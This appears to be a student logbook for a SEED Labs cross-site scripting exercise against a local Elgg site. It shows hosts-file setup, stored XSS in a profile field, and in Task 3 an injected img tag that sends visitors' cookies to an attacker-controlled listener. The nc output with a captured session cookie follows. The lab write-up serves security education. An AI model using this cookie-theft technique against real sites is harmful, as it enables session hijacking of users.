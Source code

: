 # Week 10 Logbook

### Preparation Steps

- Add the following entries to `/etc/hosts`:
    ```
    10.9.0.5 www.seed-server.com
    10.9.0.5 www.example32a.com
    10.9.0.5 www.example32b.com
    10.9.0.5 www.example32c.com
    10.9.0.5 www.example60.com
    10.9.0.5 www.example70.com
    ```

## Task 1

- Login to `www.seed-server.com` with username `alice` and password `seedalice`, for example.
- Edit profile to contain Javascript in the brief description field.

![](https://i.imgur.com/fT4pgOr.png)

- When viewing the profile, an alert appears.

![](https://i.imgur.com/wgmFTC8.png)

## Task 2

![](https://i.imgur.com/eeFTqiA.png)

- When viewing the profile, the cookies for the website are shown.

![](https://i.imgur.com/VHjR0Vm.png)

## Task 3

- We insert an `<img>` tag whose `src` attribute is a server that we control. The browser will send a `GET` request with the cookies of the user that is visiting the profile.

![](https://i.imgur.com/qgaaUXT.png)

- We receive the user's cookies in the GET request, as shown by the output of `nc`.

```bash
01/11/22]seed@VM:~$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.4 34980
GET /?c=Elgg%3Dm5i7uf00kv2s7ki9nf8sqigt30%3B%20elggperm%3Dzti_o1m_-Yfi1Ur8Fa642UXnzELvp9ce HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/
```
